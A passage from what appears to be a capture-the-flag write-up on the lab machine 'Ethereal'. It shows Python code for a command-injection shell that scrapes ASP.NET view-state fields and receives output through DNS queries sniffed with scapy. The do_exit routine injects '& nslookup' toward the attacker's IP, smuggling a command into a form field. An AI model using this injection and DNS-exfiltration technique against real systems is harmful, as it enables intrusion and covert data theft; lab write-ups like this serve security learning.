     78                 print("[-] Unable to connect to Ethereal\n[*] Running login")
     79                 self.do_login()
     80                 print("[*] Try running the command again.")
     81         except requests.exceptions.Timeout:
     82             pass
    
    

`do_login` looks like:

    
    
     54     def do_login(self, args=''):
     55         print("[*] Logging in and fetching state information.")
     56         resp = requests.get('http://ethereal.htb:8080/', auth=self.auth, proxies=self.proxy)
     57         soup = BeautifulSoup(resp.text, 'html.parser')
     58         self.view_state = soup.find("input", id="__VIEWSTATE").get('value')
     59         self.view_state_gen = soup.find("input", id="__VIEWSTATEGENERATOR").get('value')
     60         self.event_val = soup.find("input", id="__EVENTVALIDATION").get('value')
     61         print("[+] State information received.")
    

### Clean Exit

Right now, when I want to exit the shell, I have to ctrl-c twice, to kill the
terminal and the DNS thread. And it dies with exceptions all over the screen.

There’s not a really clean way that I know of to kill a thread like this from
somewhere else in the code. But I came up with a kludge.

The command running in the DNS thread is:

    
    
    sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",prn=self.parse_packet)
    

`sniff` actually has a parameter you can pass it, `stop_filter`. It is a
function that is passed each packet, and, if it returns True, will stop
`sniff`. So I’ll add one that if I get a query for a pre-defined domain, I’ll
exit:

    
    
     12 kill_domain = "0xdf.0xdf."
    ...
     23     def run(self):
     24         sniff(iface=self.interface, filter=f"src host {self.target_ip} and udp port 53",
     25                 prn=self.parse_packet, stop_filter=lambda p: p.haslayer(DNS) and
     26                 p.getlayer(DNS).qd.qname.decode('utf-8') == kill_domain)
    

Then I’ll add a `do_exit` function that gets Ethereal to send a query for that
domain, and then exits:

    
    
     79     def do_exit(self, args):
     80         self.send_post(f'& nslookup {kill_domain} 10.10.14.14')
     81         sys.exit()
    
